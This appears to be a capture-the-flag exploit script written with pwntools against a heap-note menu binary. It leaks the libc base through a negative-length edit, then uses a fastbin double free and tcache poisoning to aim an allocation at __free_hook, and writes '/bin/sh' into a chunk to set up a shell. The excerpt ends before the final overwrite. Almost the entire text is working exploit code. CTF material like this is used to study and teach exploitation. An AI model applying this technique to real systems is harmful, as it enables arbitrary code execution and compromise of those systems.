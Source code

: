 ```python
io = process(file)

arena_top = 0x1ecb80 + 0x60


def new(index: str, msg: str, content: bytes):
    io.sendlineafter(">", "1")
    io.sendlineafter("index> ", index)
    io.sendlineafter("msg_len> ", msg)
    io.sendlineafter("content> ", content)

def edit(index: str, newlen: str, content: bytes =b""):
    io.sendlineafter(">", "2")
    io.sendlineafter("index> ", index)
    io.sendlineafter("new_len> ", newlen)
    if b"inv" in io.recvn(3):
        return
    io.sendlineafter("> ", content)

def show(index: str):
    io.sendlineafter(">", "3")
    io.sendlineafter("index> ", index)

def delete(index: str):
    io.sendlineafter(">", "4")
    io.sendlineafter("index> ", index)

new("0", "16", b"AAAA")
new("1", "1280", b"BBBB")
new("2", "16", b"CCCC")
new("3", "16", b"DDDD")
new("4", "16", b"EEEE")
new("5", "16", b"FFFF")

# leak libc
edit("1", "-1")
show("1")
libc.address = u64(io.recvline()[:-1].ljust(8, b"\0")) - arena_top
libc_free_hook = libc.sym['__free_hook']
print(f'{libc.address:x}')
print(f'{libc_free_hook:x}')

# fill tcache
delete("0")
delete("2")
delete("3")
edit("4", "-1")

# double free
delete("5") #fastbin: 5 -> 5' -> NULL
edit("5", "-1") #fastbin: 5' -> 5 -> 5' -> NULL

new("0", "16", b"XXXX")
new("2", "16", b"YYYY")
new("3", "16", b"ZZZZ")

# tcache: 0' -> NULL
# fastbin: 5' -> 5 -> 5' -> NULL
new("4", "16", p64(libc.sym["__free_hook"])) # 4 = 5'
# tcache: 5 -> 5' -> __free_hook -> NULL

edit("0", "-1") # tcache: 0' -> 5 -> 5' -> __free_hook -> NULL
new("5", "16", b"/bin/sh\x00") # tcache: 5' -> __free_hook -> NULL
```